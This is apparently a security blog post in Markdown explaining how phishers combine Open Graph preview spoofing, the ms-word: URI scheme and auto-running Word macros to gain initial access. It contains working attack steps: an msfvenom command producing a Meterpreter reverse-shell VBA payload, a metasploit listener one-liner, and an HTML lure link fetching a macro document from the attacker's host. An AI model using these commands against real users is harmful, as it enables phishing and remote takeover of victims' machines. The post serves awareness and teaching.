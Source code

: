 ```yaml
---
title: Abusing OG Protocol With Macros
date: 2025-03-06 00:00:00 +0200
categories:
  - phishing
tags:
  - phishing
media_subpath: /assets/images/og
image: https://github.com/user-attachments/assets/1f42bf30-8772-4382-a7e6-369e565e9de4
---
```

**Disclaimer:**

This post is for **educational and informational purposes only**. It is intended to raise awareness about how certain technologies work and should **not** be used for any malicious or unethical activities. Misusing this information may violate laws and terms of service, leading to serious legal consequences. The author **does not** encourage or condone any illegal actions. **Use this knowledge responsibly.**
# Introduction
Hello there! I’m Mohamed Aboelnasr, and in this article, we’ll dive into how adversaries can weaponize the **Open Graph (OG) protocol** and **macros inside Word files** to craft **effective phishing attacks** and achieve initial access. By combining these two techniques, attackers can enhance social engineering tactics and bypass common security measures. 

---
### What Are Macros in Microsoft Word?
Macros in Microsoft Word are **automated sequences of commands** written in **Visual Basic for Applications (VBA)** that perform repetitive tasks. They allow users to automate workflows, but they are also **a common attack vector** exploited by adversaries for malicious purposes.
#### How?
1. **Delivery** – The attacker sends a phishing email with a **Word document attachment** (e.g., "Invoice.docm" or "Urgent_Report.docm").
2. **Social Engineering** – The document tricks the user into **enabling macros** by displaying fake warnings (e.g., "This document is protected, enable macros to view content").
3. **Execution** – Once macros are enabled, the VBA script:
    - **Downloads and executes malware** (like a RAT, ransomware, or keylogger).
    - **Runs PowerShell or CMD commands** to create a backdoor.
    - **Modifies system settings** to establish persistence.
4. **Compromise** – The attacker gains **initial access** to the system, which can lead to full compromise.  

in the following image is how macros are added to a word file 
![Image](https://github.com/user-attachments/assets/46412b21-d2ce-403c-8c94-eb1da48ec446)

There are **auto-execution macros**, meaning they run or executed **automatically** when a Word document is opened, e.g., `AutoOpen()` and `Document_Open()` auto macros.
```vba
Sub AutoOpen()
    Dim str As String
    str = "calc.exe"
    Shell str, vbNormalFocus
End Sub
```

> _For the sake of this demo, we will simply open `calc.exe` to demonstrate how macros work. This harmless example illustrate how attackers can use VBA to execute commands on a victim's machine._

![Image](https://github.com/user-attachments/assets/6a1c995a-decd-4c0e-9138-dea7a882919f)
now anyone opens this document and enables the macros the calculator will open.
![Image](https://github.com/user-attachments/assets/c50cf3c5-5a18-4384-8b35-95bf1931e7d2)

---
### What Are Open Graph (OG):
Open Graph (OG) is a metadata protocol introduced by Facebook that allows web pages to control how their content appears when shared on social media platforms. By using OG meta tags, websites can define the title, description, image, and URL displayed in link previews, making shared links more visually appealing and engaging. While OG is designed for legitimate content sharing, adversaries can manipulate it to craft deceptive previews that enhance phishing and social engineering attacks.
In the following image, you can see how a shared post or link might appear on social media:

![Image](https://github.com/user-attachments/assets/8324182a-2fee-4d35-9a99-ccf9effce8e3)

This preview is controlled by **Open Graph (OG) meta tags** embedded within an HTML file. Below is an example of OG metadata that defines how this link is displayed when shared:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta property="og:title" content="Unveiling Hidden Secrets">
    <meta property="og:description" content="A deep dive into deceptive techniques used in phishing and social engineering attacks.">
    <meta property="og:image" content="https://example.com/dark-secrets.jpg">
    <meta property="og:url" content="https://example.com/phishing-techniques">
    <title>Unveiling Hidden Secrets</title>
</head>
<body>
    <h1>How Attackers Manipulate Open Graph</h1>
    <p>Explore how adversaries exploit OG metadata to craft deceptive link previews.</p>
</body>
</html>
```

These **OG meta tags** tell platforms like **Facebook, Twitter, and LinkedIn** how to display the **title, description, image, and URL** when the page is shared. **Attackers often abuse this to create misleading previews** that look legitimate but lead to malicious websites. 

---
### **How Do Apps Like Zoom or Teams Open from a Browser Click?**
Have you ever clicked a meeting link and suddenly **Zoom, Microsoft Teams, or another app pops up**—seamlessly opening the meeting? This isn't magic; it's made possible by **Custom URI Schemes**.
let's take a step back and talk about a custom URI Scheme
### **What Is a Custom URI Scheme?**
A **Custom URI Scheme** allows installed applications to define their own **protocol handlers**, enabling browsers to interact directly with them. Instead of just opening a webpage, a **custom URL can launch an app** and pass specific instructions.
#### **Examples of Custom URI Schemes :**

- **Zoom:** `zoommtg://zoom.us/join?confno=123456789` → Opens the Zoom app and joins a meeting.
- **Microsoft Teams:** `msteams://teams.microsoft.com/l/meetup-join/...` → Launches Teams and joins a meeting.

#### **How Custom URI Schemes Registered in Windows :**
i created a custom uri for opening the notepad just for demonstration, and it's not hard you just need to register a custom uri in the registry editor as the following
1. Open **Registry Editor** (`regedit`).
2. create a new key name it notepad and Navigate to it and add a new string named 'URL Protocol' with empty value:
    ```
    HKEY_CLASSES_ROOT\notepad
    ```
    
3. Create a **new key** named `shell\open\command`.
4. Set the **default value** of `command` to:
    
    ```
    C:\Windows\System32\notepad.exe
    ```
    ![Image](https://github.com/user-attachments/assets/7bcc1a58-ac09-4fdd-a1f3-217d870b0755)
5. Now, typing `notepad://` in a browser or Run dialog `Win+R` will open Notepad.
![Image](https://github.com/user-attachments/assets/94fa6896-e5a0-42b5-b84b-ae401f39c29d)

---
### **How Attackers Exploit This Mechanism**

While these schemes are designed for convenience, **attackers can take advantage of them** to launch **malicious actions with minimal user interaction**. A well-crafted phishing attack might:
1. **Use Open Graph (OG) manipulation** to create a fake, enticing preview of a "secure document" or "urgent meeting."
2. **Embed a malicious Custom URI link** (e.g., `ms-word:ofe|u|https://attacker.com/malicious.docm`).
3. **When clicked, the link directly opens MS Word, Excel, or another app**, automatically retrieving a remote **macro-enabled** document.
4. **If macros are enabled, the malicious code executes**, leading to initial compromise.

And that is what we are going to do :"

---
first we will generate a vba reverse shell code using msfvenom
```sh
msfvenom -x x64 -p windows/x64/meterpreter/reverse_tcp lport=443 lhost=192.168.1.8 -f vba |xsel --clipboard

```
![Image](https://github.com/user-attachments/assets/c78859c6-2b9d-41bd-a10e-583fd9166066)

and start the listener using the multi/handler module in metasploit
```sh
msfconsole -x "use multi/handler;set lhost 192.168.1.8;set lport 443;set payload windows/x64/meterpreter/reverse_tcp;run"
```
next make a word document file with macros that will contain the shellcode generated from msfvenom
![Image](https://github.com/user-attachments/assets/bb8de95f-ca9a-4a27-83e7-5d9c7fdff329)

After setting up the malicious document, the attacker hosts or embeds it on a website. Now, all they need is for someone to **click the link**, which will open the document **directly in Microsoft Word**. If the victim enables macros, the attack is successful—simple and effective.
![Image](https://github.com/user-attachments/assets/d1cd2f07-ae69-4798-9669-5c4f8b6348d7)
```html
<a href="ms-word:ofe|u|http://192.168.1.8:8080/mymacro.doc"class="btn quote" >
Seek the Truth
</a>
```
- **`ms-word:`** → The **custom URI scheme** registered by Microsoft Word.
- **`ofe|u|`** → Special flags that tell Word how to handle the document:
    - **`ofe`** → Open in **editing mode**.
    - **`u`** → Specifies that the file is located at a URL.
- **`http://192.168.1.8:8080/mymacro.doc`** → The actual **document URL** to be opened.
When this link is executed (e.g., pasted in a browser’s address bar or run via `Win + R`), Microsoft Word will:
1. **Launch Word (if not already open).**
2. **Fetch the document** from the specified URL.
3. **Open it directly** in **editable mode**.
and just by convincing the victim to just visit the site and clicks the button
![Image](https://github.com/user-attachments/assets/db3e6002-d05d-4566-a5bb-b78f1709c11d)
he will be prompted to open Microsoft Word
![Image](https://github.com/user-attachments/assets/55ef5ea1-0924-4410-8ee0-4bc17ded66b8)
the word will start downloading the file and opens it
![Image](https://github.com/user-attachments/assets/6becc8e7-17ba-435a-b91d-604e3d4beb9e)

and if the victim enables editing and macros the malicious code will execute and the attacker will get a reverse shell connection back to his C2 or listener.
![Image](https://github.com/user-attachments/assets/937bd8c5-71f7-498f-89a5-aede10ff4bfc)

And that’s it. I hope no one gets tricked by this. and Remember, this is for educational purposes only— please please do not use it maliciously.  
stay safe people..
 
 ---
### References

- [Microsoft Office URI Schemes](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes#13-uri-schema)
- [Open Graph Protocol](https://ogp.me/)
- [What is Open Graph and How Can I Use It?](https://www.freecodecamp.org/news/what-is-open-graph-and-how-can-i-use-it-for-my-website/)